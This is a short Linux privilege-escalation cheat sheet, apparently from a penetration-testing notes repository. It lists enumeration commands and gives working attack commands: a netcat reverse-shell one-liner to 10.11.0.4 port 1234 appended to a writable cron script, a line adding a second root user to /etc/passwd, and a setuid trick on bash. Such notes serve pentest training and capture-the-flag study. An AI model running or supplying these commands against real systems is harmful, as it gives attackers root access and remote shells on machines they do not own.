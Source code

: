# Linux privilege escalation  

Find out what user is currently logged in.  

`whoami`  

Find user context.  

`id`  

Find information from the hostname.  

`hostname`

## cron  

To view running jobs in the cron log.  

`grep "CRON" /var/log/cron.log`  

If a writable script(user_backups.sh) is found as a cronjob, a reverse shell one liner can be appended.  

```
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```  

## /etc/passwd  

If /etc/passwd is writable, another root user can be added.  

```
openssl passwd somepassword1
echo "root2:<somepassword1 hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```  

## bash  

If we can execute a command as root.  

```
chmod +s /usr/bin/bash
/usr/bin/bash -p
```  

## Kernel vulns  

Gathering info.  

To display message of login prompt.  

`cat /etc/issue`  

Kernel version.  

`uname -r`  

Architecture.  

`arch`  



